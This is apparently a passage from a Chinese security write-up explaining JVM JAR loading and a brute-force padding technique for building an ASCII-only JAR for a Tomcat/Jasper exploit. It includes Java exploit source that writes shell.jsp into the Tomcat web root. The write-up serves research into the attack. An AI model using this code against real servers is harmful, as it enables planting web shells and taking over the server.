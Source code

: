 虽然 JAR 是 ZIP 的超集，但它有额外的规范约束，特别是被 JVM 加载时：

Java 的类加载器（`URLClassLoader`、`JarFile` 等）：

- 会先读取 EOCD（End of Central Directory） → 获取 CD 的位置
- 再从 中央目录（CD） 中获取 class 的偏移、大小、压缩信息
- 然后跳转到 Local Header → 解压 `.class` 字节码

没有 Central Directory，就不能作为“类库” JAR 被 JVM 加载。

### JAR包构造

要让所有部分都在限定的ASCII范围，其实是需要以下7个部分满足要求

```python
1. compressed_data
2. struct.pack('<L', crc)
3. struct.pack('<L', len(raw_data) % pow(2, 32))
4. struct.pack('<L', len(compressed_data) % pow(2, 32))
5. struct.pack('<L', len(zip_entry_filename))
6. struct.pack('<L', len(zip_entry_filename) + 0x2e)
7. struct.pack('<L', len(compressed_data) + len(filename) + 0x1e)
```

`zip_entry_filename`为`Exploit.class`的话，5和6是满足要求的，没有受限字符

1条件中的`compressed_data`是deflate算法压缩后的数据，利用如下ascii-zip项目，可输出经过 deflate 压缩器，得到 [A-Za-z0-9] ASCII 字节范围内的压缩数据

https://github.com/molnarg/ascii-zip

关于deflate算法，涉及到LZ77滑动窗和Huffman编码（按频率编码字符为二进制串，学过数据结构会很熟），在此略过。

还剩下2，3，4，7部分，如下

```java
1. struct.pack('<L', crc)
2. struct.pack('<L', len(raw_data) % pow(2, 32))
3. struct.pack('<L', len(compressed_data) % pow(2, 32))
4. struct.pack('<L', len(compressed_data) + len(zip_entry_filename) + 0x1e)
```

一个文件的crc，raw_data(原始数据)，compress_data之间互有影响。可以尝试寻找一个数学关系来表示，从而计算出符合条件的jar包。但是很麻烦

c0ny1师傅选择往class文件不断填充垃圾数据进行爆破，直到这四个部分都符合要求

假设构造的jar包是往`/opt/tomcat/webapps/ROOT/`下写一个shell.jsp，代码如下，其中paddingData部分可以任意填充垃圾数据

```java
import org.apache.jasper.compiler.StringInterpreter;
import org.apache.jasper.compiler.StringInterpreterFactory;
import java.io.FileOutputStream;

public class Exploit implements StringInterpreter {
    private static final String paddingData = "{PADDING_DATA}";

    // 要执行的代码
    public Exploit() throws Exception {
        String shell = "<%out.println(\\"Exploit by c0ny1@sglab\\");%>";
        FileOutputStream fos = new FileOutputStream("/opt/tomcat/webapps/ROOT/shell.jsp");
        fos.write(shell.getBytes());
        fos.close();
    }

    // 防止后续tomcat编译jsp报错
    @Override
    public String convertString(Class<?> c, String s, String attrName, Class<?> propEditorClass, boolean isNamedAttribute) {
        return new StringInterpreterFactory.DefaultStringInterpreter().convertString(c,s,attrName,propEditorClass,isNamedAttribute);
    }
```